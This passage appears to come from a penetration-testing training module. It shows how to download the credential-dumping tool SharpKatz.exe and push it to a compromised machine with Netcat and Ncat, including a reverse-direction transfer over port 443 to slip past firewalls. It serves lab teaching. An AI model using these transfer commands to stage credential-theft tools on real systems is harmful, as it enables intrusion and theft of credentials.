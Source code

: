 From our attack host, we'll connect to the compromised machine on port 8000 using Netcat and send the file [SharpKatz.exe](https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe) as input to Netcat. The option `-q 0` will tell Netcat to close the connection once it finishes. That way, we'll know when the file transfer was completed.

#### Netcat - Attack Host - Sending File to Compromised machine

```shell-session
James Pearson@htb[/htb]$ wget -q https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe
James Pearson@htb[/htb]$ # Example using Original Netcat
James Pearson@htb[/htb]$ nc -q 0 192.168.49.128 8000 < SharpKatz.exe
```

If we use Ncat in our attack host, we can use `--send-only` instead of `-q`. `--send-only` in both connect and listen modes causes Ncat to quit when its input runs out. Usually, it will not stop until the network connection is closed because the remote side may still send something, but in the case of `--send-only`, there's no reason to receive anything more.

#### Ncat - Attack Host - Sending File to Compromised machine

```shell-session
James Pearson@htb[/htb]$ wget -q https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe
James Pearson@htb[/htb]$ # Example using Ncat
James Pearson@htb[/htb]$ ncat --send-only 192.168.49.128 8000 < SharpKatz.exe
```

Instead of listening on our compromised machine, we can connect to a port on our attack host to perform the file transfer operation. This method is useful in scenarios where there's a firewall blocking inbound connections. Let's listen on port 443 on our Pwnbox and send the file [SharpKatz.exe](https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe) as input to Netcat.

#### Attack Host - Sending File as Input to Netcat

```shell-session
James Pearson@htb[/htb]$ # Example using Original Netcat
James Pearson@htb[/htb]$ sudo nc -l -p 443 -q 0 < SharpKatz.exe
```

#### Compromised Machine Connect to Netcat to Receive the File

```shell-session
victim@target:~$ # Example using Original Netcat
victim@target:~$ nc 192.168.49.128 443 > SharpKatz.exe
```

Let's do the same with Ncat:

#### Attack Host - Sending File as Input to Ncat

```shell-session
James Pearson@htb[/htb]$ # Example using Ncat
James Pearson@htb[/htb]$ sudo ncat -l -p 443 --send-only < SharpKatz.exe
```
